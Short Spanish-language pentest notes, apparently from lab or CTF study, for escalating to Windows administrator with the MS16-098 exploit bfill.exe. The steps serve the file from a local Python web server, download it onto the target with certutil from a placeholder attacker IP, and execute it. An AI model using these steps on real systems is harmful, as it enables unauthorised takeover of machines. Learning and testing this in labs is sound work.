 ** Descargar archivo ejecutable bfill.exe de SecWiki, vulnerabilidades para Windows **
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe

>Preparar servidor web en máquina local donde se encuentra el archivo bfill.exe
>`python -m SimpleHTTPServer 80`
>Transferir archivo desde máquina Windows objetivo
>`certutil.exe -f -urlcache -split http://<own_ip>:<puerto>/bfill.exe bfill.exe`
>Ejecutar bfill.exe en máquina Windows objetivo
>`bfill.exe`
>Escala privilegiso a usuario administrator